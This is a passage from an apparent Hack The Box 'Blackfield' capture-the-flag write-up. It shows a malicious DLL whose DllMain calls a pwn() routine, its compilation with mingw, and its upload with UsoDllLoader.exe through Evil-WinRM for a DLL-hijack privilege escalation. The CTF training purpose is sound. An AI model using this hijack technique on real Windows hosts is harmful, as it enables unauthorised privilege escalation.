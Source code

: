 ```shell
        LPVOID lpReserved
)
{
        switch (ul_reason_for_call)
        {
        case DLL_PROCESS_ATTACH:
                pwn();
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
                break;
        }
        return TRUE;
}
```
Compiling the dll:

```shell
cfx:  ~/Documents/htb/blackfield/Hijack
→ x86_64-w64-mingw32-gcc dllhijack.c -shared -o windowscoredeviceinfo.dll

cfx:  ~/Documents/htb/blackfield/Hijack
→ ls
dllhijack.c  windowscoredeviceinfo.dll
```
#### Uploading files

Creating temporary directories and uploading `windowscoredeviceinfo.dll` & `UsoDllLoader.exe` required for the attack, UsoDllLoader.exe can be downloaded from [**here**](https://github.com/itm4n/UsoDllLoader/releases/tag/1.0-20190824) or you can also download it from my GitHub [**repo**](https://github.com/ColdFusionX/CTF-Scripts/tree/master/HTB/BlackField)

```shell
*Evil-WinRM* PS C:\Users\svc_backup\Documents> mkdir c:\temp
*Evil-WinRM* PS C:\Users\svc_backup\Documents> mkdir c:\temp\dll
*Evil-WinRM* PS C:\Users\svc_backup\Documents> cd c:\temp\dll

*Evil-WinRM* PS C:\temp\dll> upload windowscoredeviceinfo.dll
Info: Uploading windowscoredeviceinfo.dll to C:\temp\dll\windowscoredeviceinfo.dll


Data: 122268 bytes of 122268 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\temp\dll> cd ..
*Evil-WinRM* PS C:\temp> upload UsoDllLoader.exe
Info: Uploading UsoDllLoader.exe to C:\temp\UsoDllLoader.exe


Data: 192512 bytes of 192512 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\temp> ls


    Directory: C:\temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        10/5/2020   5:24 PM                dll
-a----        10/5/2020   5:37 PM         144384 UsoDllLoader.exe
```
